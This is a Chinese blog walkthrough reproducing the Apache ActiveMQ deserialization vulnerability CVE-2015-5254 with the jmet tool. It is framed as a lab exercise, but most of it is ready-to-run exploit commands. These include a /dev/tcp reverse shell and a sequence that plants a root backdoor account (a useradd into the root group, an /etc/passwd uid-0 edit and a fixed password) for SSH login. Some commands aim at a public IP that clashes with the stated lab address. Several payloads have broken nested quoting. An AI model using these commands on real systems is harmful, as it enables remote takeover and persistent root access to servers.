






# ActiveMQ 反序列化漏洞（CVE-2015-5254）复现 - ZZtac - 博客园

> 原文：[`www.cnblogs.com/zztac/p/11869195.html`](https://www.cnblogs.com/zztac/p/11869195.html)

# 漏洞前言

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持 Java 消息服务，集群，Spring Framework 等。Apache ActiveMQ 5.13.0 之前 5.x 版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的 Java 消息服务（JMS）ObjectMessage 对象利用该漏洞执行任意代码。

Apache ActiveMQ 5.13.0 之前 5.x 版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的`Java Message Service(JMS)ObjectMessage`对象利用该漏洞执行任意代码。

*8161 为 ActiveMQ 的默认`web 管理端口`，61616 默认为 ActiveMQ`消息队列端口`。*

# 漏洞环境

## 在 kali 搭建环境成功

```
docker-compose up -d 
```



## 浏览器访问 ActiveMQ 管理页面 192.168.10.5:8161（kali 地址）

环境运行后，将监听 61616 和 8161 两个端口其中 61616 是工作端口，消息在这个端口进行传递; 8161 是网络管理页面端口访问*your-ip:8161*即可看到网络管理页面，不过这个漏洞理论上是不需要网络的。

使用浏览器直接访问 activemq，查看是否部署完毕

*192.168.10.5:8161（默认的用户名/密码为 admin/admin）*



# 漏洞复现

## 利用过程

1.  构造（可以使用 ysoserial）可执行命令的序列化对象
2.  作为一个消息，发送给目标 61616 端口
3.  访问的 Web 管理页面，读取消息，触发漏洞

## 使用 jmet 进行漏洞利用

下载 jmet 的 jar 文件，并在同目录下创建一个 external 文件夹

```
cd /opt

wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar

mkdir external 
```


## 执行命令

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/sucess" -Yp ROME   192.168.10.5   61616 
```



## 查看目标的 ActiveMQ 管理页面

发现添加一个名为事件的队列

点击查看消息即可触发命令执行 ，相当于一个钓鱼手段



## 进入容器


```
docker exec -it  6c4abb1defc5  /bin/bash 
```

# 漏洞利用成功

可看到/ tmp /已成功创建


# 反弹 shell

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -i >& /dev/tcp/192.168.10.5/1234 0>&1" -Yp ROME 192.168.10.5   61616 
```


## 添加用户

执行 jmet 的命令添加 test 用户并将其添加到 root 组,返回`192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它：

```
 java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "useradd -g root -s /bin/bash -u 10010 test" -Yp ROME  45.32.101.90  61616 
```

让我们再将 passwd 中的 test 的 uid 修改为 0，使它拥有 root 权限,返回`192.168.10.5:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

```
 java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "sed -i "s/test:x:10010/test:x:0/g" /etc/passwd" -Yp ROME   45.32.101.90  61616 
```

让我们再为 test 用户设置一个密码,返回`192.168.10.5:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

```
 java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "echo "test:sd123456" | chpasswd" -Yp ROME   45.32.101.90   61616 
```

到此为止，一个权限为 root，密码为 123456 的用户即创建完毕。我们可以使用 ssh 直接远程登陆进入操作系统，并且还是最高权限。

